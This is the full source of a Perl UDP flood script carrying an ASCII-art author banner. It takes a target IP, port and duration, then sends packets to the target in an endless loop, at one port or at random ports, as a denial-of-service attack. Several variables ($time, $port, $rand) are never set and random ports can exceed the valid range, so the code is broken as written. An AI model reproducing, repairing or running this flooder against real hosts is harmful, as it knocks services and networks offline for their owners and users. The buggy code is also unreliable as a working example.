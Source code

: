 #!/usr/bin/perl
use Socket;
$ARGC=@ARGV;
if ($ARGC !=3) {
printf "Wrong command, use: perl ady <ip> <port> <time> \n";
exit(1);
}
my ($ip);
$ip=$ARGV[0];
socket(crazy, PF_INET, SOCK_DGRAM, 17);
$iaddr = inet_aton("$ip");

printf "\n";
print <<EOTEXT;
[1;31m
              : By [Life] :

                                                                                                    
                                                                                     
.dd/         -mmy    -hddddddddh.                                             
-MMo         `os:    /MMs++++++/`                                            
-MMo          ..`    /MM:             `.---.`                                 
-MMo          NNo    /MM:           -ydddddmdo`                               
-MMo         `MMs    /MM+.......   +NN+.```-hMd`                              
-MMo         `MMs    /MMmmmmmmmy  .NMs......:MM+                              
-MMo         `MMs    /MM+......`  /MMmhhhhhhhmm+                              
-MMo         `MMs    /MM:         :MM+........`                               
-MMo         `MMs    /MM:         `dMd.      ``                               
-MMmhhhhyyy. `MMs    /MM:          .hNNyo++oyhh                               
`+ooooooooo`  oo:    .oo.            -/osyys+/.                               
                                                                             

EOTEXT

if ($ARGV[1] ==0 && $ARGV[2] ==0) {
goto randpackets;
}
if ($ARGV[1] !=0 && $ARGV[2] !=0) {
system("(sleep $time;killall -9 udp) &");
goto packets;
}
if ($ARGV[1] !=0 && $ARGV[2] ==0) {
goto packets;
}
if ($ARGV[1] ==0 && $ARGV[2] !=0) {
system("(sleep $time;killall -9 udp) &"); 
goto randpackets;
}
packets:
for (;;) {
$size=$rand x $rand x $rand;
send(crazy, 8, $size, sockaddr_in($port, $iaddr));
}
randpackets:
for (;;) {
$size=$rand x $rand x $rand;
$port=int(rand 75000) +0;
send(crazy, 0, $size, sockaddr_in($port, $iaddr));
}
